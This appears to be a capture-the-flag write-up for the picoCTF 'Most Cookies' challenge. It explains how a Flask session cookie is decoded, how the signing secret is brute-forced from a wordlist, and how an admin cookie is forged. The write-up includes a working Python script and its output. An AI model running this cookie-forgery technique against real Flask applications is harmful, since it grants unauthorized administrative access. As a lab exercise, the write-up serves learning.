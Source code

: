 # Most Cookies
__Flag__:`picoCTF{pwn_4ll_th3_cook1E5_5f016958}`

__Solution__: This was a confusing challenge for me. So this challenge deals with flask cookies, for example, our session cookie:`eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZyrxZg.sIwo7Z59uyO8iKRtWLMNolWwpgw`.

Now this cookie is base 64 encoded, so if you decode it you will get: `very auth: blank`.

Our goal here, and the way to get the flag is to set `very auth` to `admin`. However, we cannot do that. The thing is the second part of the cookie is signed by an algorithm using a secret key, and without finding that secret key, the server will not accept the cookie. 

Now, the wordlist for the secret key is given in the `server.py` file. Using a python script, we can find the secret key and thus, the admin cookie which we will input.
```
import hashlib
from itsdangerous import URLSafeTimedSerializer
from itsdangerous.exc import BadTimeSignature
from flask.sessions import TaggedJSONSerializer
def flask_cookie(secret_key, cookie_str, operation):
    # This function is a simplified version of the SecureCookieSessionInterface: https://github.com/pallets/flask/blob/020331522be03389004e012e008ad7db81ef8116/src/flask/sessions.py#L304.
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    if operation == "decode":
        return s.loads(cookie_str)
    else:
        return s.dumps(cookie_str)

# The list of possible secret keys used by the app.
possible_keys = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

# An encoded cookie pulled from the live application that can be used to guess the secret key.
cookie_str = "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Zyro9w.RZkvSmhhFTnRR7SbIK_n5pt9wyM"

# For each possible key try to decode the cookie.
for possible_secret_key in possible_keys:
    try:
        cookie_decoded = flask_cookie(possible_secret_key, cookie_str, "decode")
    except BadTimeSignature:
        # If the decoding fails then try the next key.
        continue
    secret_key = possible_secret_key
    # Break the loop when we have the corret key.
    break

print("Secret Key: %s" % secret_key)

# The admin cookie has the `very_auth` value set to `admin`, which can be seen on line 46 of the server.py code.
admin_cookie = {"very_auth": "admin"}
# Encode the cookie used the `SecureCookieSessionInterface` logic.
admin_cookie_encoded = flask_cookie(secret_key, admin_cookie, "encode")

print("Admin Cookie: %s" % admin_cookie_encoded)

```
```
Secret Key: gingersnap
Admin Cookie: eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZyrwJw.ubUbLt-OSVdMFv2c6MsAr9cRaRc
```

<img width="561" alt="{F5C1BF0B-29FB-4C48-BF76-C625D5BA18A5}" src="https://github.com/user-attachments/assets/161ea9c8-4db1-4c95-9764-999715af79e5">
